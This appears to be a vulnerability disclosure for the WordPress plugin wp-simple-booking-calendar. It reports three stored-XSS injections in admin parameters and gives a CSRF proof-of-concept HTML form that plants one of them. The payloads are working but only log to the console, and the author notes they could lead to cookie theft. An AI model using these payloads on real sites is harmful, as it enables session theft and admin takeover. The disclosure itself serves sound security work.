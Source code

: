 Well ,sir ,I just found Stored-XSS bugs and a CSRF bug here.

#### Stored-XSS

##### Stored-XSS at extras

When the user click the "Extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-extras
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
extra_field1[items][field_item1][price_percent]=\"><img src=x onerror=console.log(/xss/)><\"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/extra-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/extras-xss2.png)



##### Stored-XSS at themes

When the user click the "Themes" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-themes
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
sale_conditions[count][]='"><svg/onload=console.log(/xss2/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/themes-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/themes-xss2.png)


##### Stored-XSS at forms

When the user click the "Forms" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
form_field5[label]=Message'"><svg/onload=console.log(/xss3/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/form-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/form-xss2.png)

#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms" method="POST">
      <input type="hidden" name="title" value="test123" />
      <input type="hidden" name="save" value="Save" />
      <input type="hidden" name="form&#95;field3&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field3&#91;name&#93;" value="form&#95;field3" />
      <input type="hidden" name="form&#95;field3&#91;label&#93;" value="Email" />
      <input type="hidden" name="form&#95;field3&#91;isemail&#93;" value="on" />
      <input type="hidden" name="form&#95;field4&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field4&#91;name&#93;" value="form&#95;field4" />
      <input type="hidden" name="form&#95;field4&#91;label&#93;" value="Phone" />
      <input type="hidden" name="form&#95;field5&#91;type&#93;" value="textarea" />
      <input type="hidden" name="form&#95;field5&#91;name&#93;" value="form&#95;field5" />
      <input type="hidden" name="form&#95;field5&#91;label&#93;" value="Message&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="task" value="save" />
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the other user could be cheated to visit my evil html on my site, or I just a low privilege role to edit something in the shared page, I can get other users' cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin wp-simple-booking-calendar.